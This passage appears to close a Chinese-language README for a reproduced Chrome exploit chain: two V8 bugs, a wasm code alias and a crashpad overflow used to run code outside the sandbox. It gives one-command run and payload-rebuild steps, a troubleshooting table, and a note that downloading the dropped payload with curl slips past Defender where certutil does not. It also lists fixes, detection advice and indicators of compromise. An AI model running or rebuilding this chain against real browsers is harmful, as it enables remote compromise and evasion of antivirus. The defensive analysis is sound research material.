```bash
cd windows/chain-87491-85046-78952-WIN/poc

# 首次：编译本地 HTTP 服务（缺 -lws2_32 会报 WSAStartup 链接错误）
clang -o runner.exe runner.c -lws2_32

# 一键到胜（runner 没跑会自动拉起；重启机器后同样一条命令）
./run_chain.sh

# 可选：30 轮成功率统计（分阶段归因）
./rate_w4.sh 30
```

重建 payload（构建流水线细节见 IAT-RESOLVE 图底部）：

```bash
clang -Oz -ffreestanding -fno-stack-protector -fno-asynchronous-unwind-tables \
      -c payload_src_w4.c -o payload_w4.o
# 校验零占位 call → readobj 取偏移 → dd 精抽 .text → nm 偏移烘焙进 embed
```

排障速查：

| 症状 | 解法 |
|---|---|
| 连续 fail-fast | 确认 runner：`curl http://127.0.0.1:8765/run_w4.html` 应 200 |
| dep-miss 连刷 | 竞态固有窗口；看 `%TEMP%\ms64.exe/ev64.dll` 是否落盘区分桥接/竞态问题 |
| chrome 起不来 | 先 `taskkill /IM ms64.exe /F` 再 `taskkill /IM chrome.exe /F` |
| 分析崩溃 | `./mdmp.exe tmp/tCH4*/Crashpad/reports/*.dmp`（0xDEAD00xx = payload 信标） |

---

## 9. 防御视角

**修复建议（按漏洞）**

- 87491/85046：V8 侧修复（比较器重入后的元素类型重校验；写屏障不可跳过）——上游已修，本文只复现;
- wasm 别名链：stale trusted-instance 的内存访问应重新校验 memory index;
- **78952（真正的边界错误）**：`ReadUpTo` 重试长度必须钳位到调用方声明的 size；更重要的是 handler 对客户端声明的 `extra_memory_ranges` 不应无条件信任。

**检测启示（本链实测）**

- Defender 拦下了 certutil 却放行了 curl——**命令行特征检测覆盖面是补丁式的**；同一个原语换个系统自带二进制就绕过。进程创建审计（子进程链：渲染器→curl→落盘 exe→派生 handler）比命令行模式匹配更本质。
- IOC 样例：渲染进程崩溃在非映射地址 `0xDEAD0021`（异常地址本身即信标——攻击者的调试便利就是检测者的指纹）；渲染器子进程出现 `curl.exe` + 同源下载；`%TEMP%` 出现 `ms64.exe/ev64.dll/msdb` 组合；崩溃前后 crashpad 行为异常（WAW 竞态痕迹）。

---

## 10. 资产清单与结语

**可复用资产**（全部在本目录）：

- 字节校验的载荷部署器（`VERIFY bad4=0` 门禁）
- 信标尸检法 + `mdmp.c` minidump 解析器（崩溃地址=进度报告）
- `expchk.c` 导出转发器检查器 / `w4test.c` payload 宿主回归台
- `rate_w4.sh` 分阶段成功率归因驱动
- 全链分步 console 标记体系 + `pocwin_probe.js` RX 区探测页
- 四代武器化方案的完整代码存档（v1/v3/v4 并存，可对照研究）

从**访问一个网页**，到**非沙箱进程里弹出计算器**——三个 CVE（两个 V8 原语 + 一个 crashpad 溢出）经 wasm 代码别名、IAT 自取桥接、curl 落地缝合为完整链路：零硬编码路径、目标机零预置、期望 ~2.3 轮取胜，且这条链的每一米都有可复核的证据链。

*本工作为授权隔离环境下的公开研究复现，所有目标均为本地测试构建。*
